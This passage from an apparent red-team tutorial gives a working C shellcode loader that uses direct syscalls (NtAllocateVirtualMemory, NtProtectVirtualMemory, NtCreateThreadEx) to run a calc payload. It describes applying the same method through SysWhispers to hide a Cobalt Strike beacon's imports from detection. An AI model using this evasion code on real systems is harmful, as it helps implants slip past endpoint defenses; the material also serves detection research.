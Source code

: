 Our final code for the test program now looks like this (not including the shellcode from the start):
```c
int main()
{
    HANDLE hProc = GetCurrentProcess();
    DWORD oldprotect = 0;
    PVOID base_addr = NULL;
    HANDLE thandle = NULL;

    //1. Allocate new RW memory buffer for payload
    //LPVOID base_addr = VirtualAlloc(0, calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    // First syscall:
    NTSTATUS NTAVM = NtAllocateVirtualMemory(hProc, &base_addr, 0, (PSIZE_T)&calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    //2. Copy the calc shellcode to the new memory buffer
    RtlMoveMemory(base_addr, calc_payload, calc_len);
    //3. Modify permissions on memory from RW to RX
    //auto vp = VirtualProtect(base_addr, calc_len, PAGE_EXECUTE_READ, &oldprotect);
    //Second syscall:
    NTSTATUS NTPVM = NtProtectVirtualMemory(hProc, &base_addr, (PSIZE_T)&calc_len, PAGE_EXECUTE_READ, &oldprotect);
    printf("Press any key to spawn shellcode\n");
    getchar();
    //4. Create a thread using the address of the RX region that contains our shellcode
    //auto ct = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)base_addr, 0, 0, 0); //CreateThread = NtCreateThreadEx
    //Third syscall:
    //	NTSTATUS sThread = NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, hProc, &run, ptr, FALSE, 0, 0, 0, NULL);
    NTSTATUS ct = NtCreateThreadEx(&thandle, GENERIC_EXECUTE, NULL, hProc, base_addr, NULL, FALSE, 0, 0, 0, NULL);
    WaitForSingleObject(thandle, -1);
    free(base_addr);//clean up after ourselves
}
```

Compiling and running this spawns calc.exe beautifully.

With the above method it should be pretty straightforward to repeat the steps and add Syswhispers to the artifact kit visual studio project and replace the three API calls with syscalls. There is one catch that got me though:
in the `NtCreateThreadEx` function definition, there is a parameter called `IN PVOID Argument OPTIONAL`. This parameter is required to spawn the beacon thread in the artifact kit. Luckily we can easily find what we need to provide by looking at the `CreateThread` arguments already present in the artifact - I will leave this for the reader as an exercise.

With the WinAPI functions replaced, let's have a look at the import table of our modified beacon.exe:

```cmd
 58B Sleep
 21D GetCurrentProcess
 27B GetModuleHandleA
 2B5 GetProcAddress
 4DA RtlLookupFunctionEntry
 4E1 RtlVirtualUnwind
 5BC UnhandledExceptionFilter
 57B SetUnhandledExceptionFilter
 59A TerminateProcess
 389 IsProcessorFeaturePresent
 27E GetModuleHandleW
 382 IsDebuggerPresent
 36C InitializeSListHead
 2F0 GetSystemTimeAsFileTime
 222 GetCurrentThreadId
```